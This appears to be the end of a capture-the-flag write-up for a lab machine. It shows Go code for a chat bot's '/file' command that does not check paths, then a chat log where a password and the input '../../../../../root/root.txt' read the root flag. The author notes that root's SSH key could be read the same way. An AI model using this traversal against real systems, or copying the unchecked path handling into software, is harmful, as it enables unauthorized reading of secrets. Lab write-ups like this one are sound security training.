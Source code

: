 ```go
        // Get CWD
        cwd, err := os.Getwd()
        if err != nil {
                u.system(err.Error())
        }

        // Construct path to print
        printPath := filepath.Join(cwd, path)

        // Check if file exists
        if _, err := os.Stat(printPath); err == nil {
                // exists, print
                file, err := os.Open(printPath)
                if err != nil {
                        u.system(fmt.Sprintf("Something went wrong opening the file: %+v", err.Error()))
                        return
                }
                defer file.Close()

                scanner := bufio.NewScanner(file)
                for scanner.Scan() {
                        u.system(scanner.Text())
                }

                if err := scanner.Err(); err != nil {
                        u.system(fmt.Sprintf("Something went wrong printing the file: %+v", err.Error()))
                }

                return

        } else if os.IsNotExist(err) {
                // does not exist, print error
                u.system(fmt.Sprintf("The requested file @ %+v does not exist!", printPath))
                return
        }
        // bokred?
        u.system("Something went badly wrong.")
}
```
It seemingly just prints whatever file we want into the chat. Let's take a look:
```console
devbot: catherine has joined the chat
catherine: /file
[SYSTEM] Please provide file to print and the password
catherine: /file /root/root.txt CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/root/root.txt does not exist!
catherine: /file ../../../../../root/root.txt CeilingCatStillAThingIn2021?
[SYSTEM] 0ad7041bda0cbe6977dd05c16e25a324
catherine: 
```
We have the contents of `root.txt`{: .filepath}. Obviously we could also have printed the ssh key of the root user, however this will do. Rooted!